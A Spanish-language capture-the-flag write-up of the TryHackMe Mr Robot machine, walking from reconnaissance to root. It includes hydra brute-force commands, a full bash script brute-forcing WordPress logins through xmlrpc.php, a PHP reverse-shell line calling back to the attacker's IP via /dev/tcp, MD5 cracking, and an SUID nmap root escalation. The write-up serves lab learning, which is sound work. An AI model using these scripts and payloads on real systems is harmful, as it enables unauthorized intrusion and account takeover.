



# Mr Robot CTF - TryHackMe

## Reconocimiento

Vamos a escanear con nmap para ver que puertos están abiertos y que servicios corren en ellos.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.176.203 -oG allPorts

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 62
80/tcp  open  http    syn-ack ttl 62
443/tcp open  https   syn-ack ttl 62
```

Vemos que los puertos 22 (SSH), 80 (HTTP) y 443 (HTTPS) están abiertos. A continuación, realizamos un escaneo más detallado en estos puertos.

```bash
nmap -sCV -p22,80,443 10.129.176.203

22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:32:98:c1:f7:b5:0a:b8:e7:48:2a:00:6a:09:50:10 (RSA)
|   256 28:78:8a:27:5c:c3:49:c9:0f:00:7a:63:53:33:f5:4a (ECDSA)
|_  256 45:7e:12:68:f7:b4:b1:68:63:84:b3:89:7f:21:f2:d0 (ED25519)
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que los puertos 80 y 443 están corriendo un servidor web Apache y el puerto 22 está corriendo OpenSSH.

Al entrar en http://10.129.176.203/ vemos una animación en la que iniciamos sesión como root a una shell y nos da un mensaje.



En el código fuente vemos este mensaje:

```html
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
```

Además al entrar en https://10.129.176.203/ vemos que nos redirige a la misma página pero con HTTPS.



Vemos que el certificado SSL es autofirmado por www.example.com 

En la página nos deja utilizar los siguientes comandos:

```bash
prepare
fsociety
inform
question
wakeup
join
```

Al darle a `prepare` nos sale un video de la serie Mr Robot y nos da una página para visitar llamada whoismrrobot.com

Con `fsociety` nos preguntan:

```
Are you ready to join fsociety?
```

Con `inform` nos salen varias noticias y mensajes de mr robot opinando al respecto.

Con `question` nos salen aun más mensajes respecto al capitalismo y la sociedad.

Con `wakeup` sale una escena de la serie.

Con `join` nos pide un correo electrónico.

Vamosa  a realizar un escaneo de directorios con `gobuster` para ver si encontramos algo interesante.

```bash
gobuster dir -u http://10.128.148.71 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 10701

/sitemap              (Status: 200) [Size: 0]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2642]
/license              (Status: 200) [Size: 309]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
```

http://10.128.148.71/robots nos da el siguiente mensaje:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Nos da 2 archivos muy interesantes, vamos a intentar descargarlos más adelante.

http://10.128.148.71/readme nos da el siguiente mensaje:
```
I like where you head is at. However I'm not going to help you.
```

http://10.128.148.71/sitemap

```
XML Parsing Error: no root element found
Location: http://10.128.148.71/sitemap
Line Number 1, Column 1:
```

Nos da un error de XML

http://10.128.148.71/wp-login



Podríamos usar wpscan para enumerar usuarios y vulnerabilidades de WordPress.

http://10.128.148.71/license

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
```

Esto es una referencia a un episodio de la serie Mr Robot en el que Elliot le dice a Darlene que no es un script kiddie, Rapid7 es una empresa de ciberseguridad que desarrolla herramientas de seguridad y exploits y usaron en la serie el 9 por temas de copyright.

**fsociety.dic** es un diccionario de contraseñas que podemos usar para ataques de fuerza bruta.

**Key-1-of-3.txt** es la primera flag de la máquina.

Al usar wpscan no encontramos gran cosa, la versión es WordPress version 4.3.1 y tiene varias vulnerabilidades.

Podemos usar el diccionario fsociety.dic para realizar un ataque de fuerza bruta a la página de login de WordPress, pero tenemos que buscar un usuario válido.

Vamos a ver si se puede tirar de un XXE para ver si podemos obtener el contenido de /etc/passwd en `/sitemap.xml`.

He intentado varias veces inyectar un XXE en `/sitemap.xml` y un XXE OOB(Out of Band) y no he conseguido que funcione, así que vamos a intentar otra cosa.

```bash
gobuster vhost -u http://example.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20 --append-domain --exclude-length 4250

Found: alfresco.example.com Status: 200 [Size: 1105]
```

Metemos en /etc/hosts:

```bash
10.128.148.71    www.example.com example.com alfresco.example.com
```

Buscamos subdominios de la página y encontramos el subdominio `alfresco.example.com` 

alfresco es un software de gestión de contenido empresarial (ECM) y gestión de documentos (DMS) de código abierto.

Nos lleva al mismo sitio web que el dominio principal, no creo que nos sirva de mucho.

Intentamos usar searchsploit para hacer uso de `php/webapps/41497.php` pero no nos enumera usuarios de wordpress.

SI nos metemos a http://10.129.168.66/phpmyadmin nos da este mensaje: `For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.`

http://10.129.168.66/image/ Intentamos hacer esteganografía en la imagen que encontramos pero no encontramos nada.
`steghide, binwalk, exiftool, stegseek` no nos dan nada.

http://10.129.168.66/xmlrpc nos da un mensaje de error `XML-RPC server accepts POST requests only.`


xmlrpc.php es un archivo sensible que permite realizar ataques de fuerza bruta para obtener credenciales válidas. Para ello, se debe enviar una solicitud POST con un archivo XML que tenga la estructura adecuada para el ataque

## Explotación

Haremos lo siguiente, crearemos un archivo llamado `file.xml` con la siguiente estructura:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
   <methodName>wp.getUsersBlogs</methodName>
   <params>
      <param>
         <value>usuario</value>
      </param>
      <param>
         <value>contraseña</value>
      </param>
   </params>
</methodCall>
```

```bash
curl -s -X POST -d @file.xml http://172.17.0.2/wordpress/xmlrpc.php
```

Nos dice que el usuario o la contraseña son incorrectos. Esto nos indica que podemos realizar un ataque de fuerza bruta para obtener credenciales válidas.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

Vamos a usar el diccionario `fsociety.dic` para realizar un ataque de fuerza bruta al loggin de WordPress con hydra.

Primero veamos como se tramita la petición por burpsuite:

```
log=a&pwd=a&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.129.168.66%2Fwp-admin%2F&testcookie=1
```

Ahora vamos a usar hydra para realizar el ataque de fuerza bruta y filtramos el mensaje de error `Invalid username` para saber si el usuario es válido o no.

```bash
hydra -L fsociety.txt -p prueba 10.129.168.66 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

[80][http-post-form] host: 10.129.168.66   login: Elliot   password: prueba
```

usamos php:log=^USER^&pwd=^PWD^:Invalid username para indicar que el campo de usuario es `log` y el campo de contraseña es `pwd` y que el mensaje de error es `Invalid username`.

Vemos que el usuario válido es `Elliot`, ahora vamos a usar el diccionario `fsociety.dic` para realizar un ataque de fuerza bruta a la contraseña del usuario `Elliot`.

```bash
hydra -L eliot.txt -P fsociety.txt 10.129.168.66 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username Elliot is incorrect" -t 30

# Salieron varias contraseñas incorrectas, pero no encontramos la correcta.
```

Me da estos resultados, acortamos un poco el filtro y ponemos el nombre de usuario con otro parametro

```bash
hydra -l Elliot -P fsociety.txt 10.129.168.66 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

```

No nos encuentra nada, por lo que vamos a usar este script que he utilizado en el curso hack4u de S4vitar para realizar un ataque de fuerza bruta a la página de login de WordPress usando xmlrpc.php y el diccionario fsociety.

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Saliendo...\n"
  exit 1
}

trap ctrl_c SIGINT

function createXML(){
  password=$1
  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
   <methodName>wp.getUsersBlogs</methodName>
   <params>
      <param>
         <value>Elliot</value>
      </param>
      <param>
      <value>$password</value>
      </param>
   </params>
</methodCall>
  """
  echo $xmlFile > file.xml
  response=$(curl -s -X POST http://10.128.180.107/xmlrpc.php -d @file.xml) 
  if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
    echo -e "\n[+] La contraseña para Elliot es $password"
    exit 0
  fi
}

cat fsociety.txt | while read password; do
  createXML $password
done
```

Nos sigue tardanto un montón, y me doy cuenta de que el diccionario tiene un montón de duplicados, así que lo limpio con `sort -u fsociety.txt > fsociety_clean.txt` y lo vuelvo a ejecutar.

Mejoramos un poco el script para que nos diga en que contraseña va y lo ejecutamos de nuevo.

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Saliendo y limpiando temporales...\n"
  rm -f file.xml 2>/dev/null
  tput cnorm 
  exit 1
}

trap ctrl_c SIGINT

tput civis

total_lineas=$(wc -l < fsociety.txt)
contador=0

function createXML(){
  password="$1"
  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
   <methodName>wp.getUsersBlogs</methodName>
   <params>
      <param>
         <value>Elliot</value>
      </param>
      <param>
      <value>$password</value>
      </param>
   </params>
</methodCall>
  """
  echo "$xmlFile" > file.xml
  response=$(curl -s -X POST http://10.128.180.107/xmlrpc.php -d @file.xml) 
  if [ ! "$(echo "$response" | grep 'Incorrect username or password.')" ]; then
    echo -e "\n\n[+] ¡Éxito! La contraseña para Elliot es: $password\n"
    rm -f file.xml 2>/dev/null
    tput cnorm
    exit 0
  fi
}

echo -e "\n[*] Comprobando $total_lineas contraseñas vía XML-RPC...\n"

while read -r password; do
  ((contador++))
  echo -ne "\r[*] Progreso: [$contador / $total_lineas] -> Probando: $password\033[0K"
  createXML "$password"
done < fsociety.txt

tput cnorm
rm -f file.xml 2>/dev/null
echo -e "\n\n[-] Contraseña no encontrada en el diccionario."
```

```bash
./filenuevo.sh

[*] Comprobando 11451 contraseñas vía XML-RPC...

[*] Progreso: [5627 / 11451] -> Probando: ER28-0652

[+] ¡Éxito! La contraseña para Elliot es: ER28-0652
```

Ahora iniciamos sesión y vamosa  los plugins instalados, nos metemos en el plugin `Google XML Sitemaps` y escribimos lo siguiente:

```php
system("bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1'");
```

Le damos a activar y nos da una reverse shell en nuestro listener de netcat.

## Escalada de privilegios

Hagamos un tratamiento de la TTY:

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 182
```

```bash
daemon@ip-10-128-184-4:/usr$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Estamos como daemon, dentro de /home encontramos el usuario `robot` y dentro de su home encontramos la flag pero no la podemos leer.

```bash
daemon@ip-10-128-184-4:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b

```

Nos da un hash MD5 de la contraseña del usuario robot, vamos a intentar crackearlo con hashcat.

```bash
hashcat -m 0 -a 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

su - robot
```

Ahora si podemos leer la flag.

Veamos ahora distintas formas de escalar privilegios.

```bash
# Grupos
robot@ip-10-128-184-4:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)

# Sudo
robot@ip-10-128-184-4:~$ sudo -l
[sudo] password for robot:
Sorry, user robot may not run sudo on ip-10-128-184-4.

# SUID
robot@ip-10-128-184-4:~$ find / -perm -4000 2>/dev/null

/usr/local/bin/nmap
```

Nos metemos en: https://gtfobins.org/gtfobins/nmap/#shell

```bash
nmap --interactive

nmap> whoami
root

nmap> bash
root@ip-10-128-184-4:~# cd /root
root@ip-10-128-184-4:/root# ls
firstboot_done	key-3-of-3.txt
```

Encontramos la tercera flag en /root/key-3-of-3.txt.